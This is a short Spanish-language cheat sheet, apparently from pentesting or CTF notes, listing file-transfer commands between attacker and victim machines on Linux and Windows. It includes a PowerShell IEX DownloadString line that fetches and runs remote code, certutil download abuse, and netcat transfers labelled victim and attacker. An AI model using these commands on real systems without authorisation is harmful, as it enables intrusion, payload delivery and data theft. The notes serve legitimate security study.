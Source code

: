 ### Linux

Estas son distintas formas de transferir archivos entre maquinas linux

```shell
# INICIANDO UN SERVIDOR WEB CON PYTHON
sudo python -m SimpleHTTPServer <PORT> # Opción 1
sudo python -m http.server <PORT> # Opción 2

# FTP
sudo python3 -m pyftpdlib  -p 21 -w

# INICIANDO UN SERVIDOR SMB
sudo impacket-smbserver smbFolder $(pwd) -smb2support

# WGET
wget <URL> -o <OUT_FILE>

# CURL
curl <URL> -o <OUT_FILE>

# NETCAT
nc -lvp 443 > <OUT_FILE> # Victima
nc <IP> 443 < <IN_FILE>  # Atacante

# SCP
scp <SOURCE_FILE> <USER>@<IP>:<DESTINATION_FILE>
scp -P 2222 -i id_rsa pspy www-data@10.10.10.246:/tmp/pspy # Ejemplo
```

---

### Windows

```powershell
# FTP 
echo open <IP> 21 > ftp.txt echo anonymous>> ftp.txt echo password>> ftp.txt echo binary>> ftp.txt echo GET <FILE> >> ftp.txt echo bye>> ftp.txt
ftp -v -n -s:ftp.txt

# SMB
copy \\<IP>\<PATH>\<FILE> # Linux -> Windows
copy <FILE> \\<IP>\<PATH>\ # Windows -> Linux

# Powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('<URL>', '<DESTINATION_FILE>')
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('<URL>')
powershell "wget <URL>"

# Python
python.exe -c "from urllib import urlretrieve; urlretrieve('<URL>', '<DESTINATION_FILE>')"

# CertUtil
certutil.exe -urlcache -split -f "<URL>"

# NETCAT
nc -lvp 1234 > <OUT_FILE> 
nc <IP> 1234 < <IN_FILE>

# CURL
curl <URL> -o <OUT_FILE>
```

---